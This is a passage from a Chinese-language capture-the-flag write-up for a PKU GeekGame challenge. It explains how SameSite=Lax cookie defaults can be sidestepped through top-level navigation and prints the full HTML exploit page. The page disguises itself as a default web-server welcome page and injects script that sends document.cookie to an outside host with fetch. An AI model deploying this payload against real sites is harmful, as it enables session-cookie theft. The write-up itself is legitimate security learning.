 这是在 Chrome 80+ 之后的变化。从此之后，直接设置的 cookie 的 `SameSite` 默认是 `Lax`，不能在嵌入为 `iframe` 的页面里面读取。

小饼干😭我的小饼干😭

不过 Lax 还是留了一点小口子的：

> Unlike None where cookies are always sent, Lax cookies are only sent on same-site request like Strict. However, Lax allows top-level navigation access with a safe HTTP method, like HTTP GET. The cookie will not be sent with cross-domain POST requests or when loading the site in a cross-origin frame, but it will be sent when you navigate to the site via a standard top-level `<a href=...>` link.

那么的话，刷新可以这么实现：网页上先放一个 `<a>` 指向 Q 小树洞，然后 500ms 后先设置 `src`（不让 `<iframe>` 继续加载），然后模拟点击这个 `<a>`，就可以绕过这个限制。

最终的 payload 在 <https://static.taoky.moe/zzhtql.html>，内容如下：

```html
<!DOCTYPE html>
<html>
<head>
<title>Welcome to caddy!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
	<!--<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#//setflag%20hole_config={%22background_img%22:%22javascript:alert(1)%22,%22background_color%22:%22#113366%22,%22pressure%22:false,%22easter_egg%22:true,%22color_scheme%22:%22default%22}"></iframe>-->
	<iframe id="a" height=600 width=600 sandbox="allow-scripts allow-same-origin" src="https://prob15-qkuhole.geekgame.pku.edu.cn/hole/#//setflag%20APPSWITCHER_ITEMS={%22switcher_2%22:{%22bar%22:[[%22hole%22,%22树洞%22,%22#%22,%22#%22,null,false]],%22dropdown%22:[[%22homepage%22,%22客户端%22,%22#%22,%22#%22,null,false]],%22fix%22:{%22hole%22:%22console.log(document.cookie);fetch('https://static.taoky.moe/'+document.cookie);%22}}}"></iframe>
	<a href='https://prob15-qkuhole.geekgame.pku.edu.cn/hole/' id="b">Welcome to Q 小树洞！</a>
<h1>Welcome to caddy!</h1>
<p>If you see this page, the nginx web server is successfully uninstalled and
not working. Further configuration is not required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Just Kidding.</em></p>
		<script>
			// setTimeout(() => {document.getElementById("a").src = "about:blank"; document.getElementById("a").src = "https://prob15-qkuhole.geekgame.pku.edu.cn"}, 500)
			setTimeout(() => {document.getElementById("a").src = "about:blank";document.getElementById("b").click()}, 500)
			// setInterval(() => {document.title = document.getElementById("a").contentWindow.title},1000)
		</script>
</body>
</html>
```
